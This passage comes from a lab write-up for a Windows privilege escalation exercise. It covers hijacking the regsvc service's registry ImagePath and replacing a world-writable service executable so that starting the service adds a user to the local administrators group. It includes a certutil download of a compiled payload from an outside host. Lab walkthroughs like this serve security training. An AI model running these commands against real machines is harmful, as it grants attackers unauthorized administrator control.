 ```bash
:~/WindowsPrivEscArena# x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

```bash
:~/WindowsPrivEscArena# python3 -m http.server
```

```bash
PS C:\Temp> certutil.exe -urlcache -f http://xx.xxx.xxx.xx:8000/x.exe x.exe
```

```bash
PS C:\Temp> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```

```bash
PS C:\Temp> sc start regsvc
```

```bash
PS C:\Temp> net start regsvc
```

<img width="985" height="552" alt="image" src="https://github.com/user-attachments/assets/aeb6d9e8-9cb2-42af-a0ec-1dc015d1e8dd" />

<br>
<br>
<br>
<h2 align="center">Task 6 . Service Escalation - Executable Files</h2>
<h3 align="center">Detection</h3>

<p>Windows VM<br>

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"<br>
2. Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file.</p>

<h3 align="center">Exploitation</h3>
<p>Windows VM<br>

1. Open command prompt and type: copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"<br>
2. In command prompt type: sc start filepermsvc<br>
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators</p>

<p><em>Answer the questions below</em></p>

<p>6.1. Click 'Completed' once you have successfully elevated the machine<br>
<code>No answer needed</code></p>


<img width="979" height="243" alt="image" src="https://github.com/user-attachments/assets/65ca7f73-5e1e-413f-9e23-ce2d85fb5cb2" />

<br>
<br>
<br>
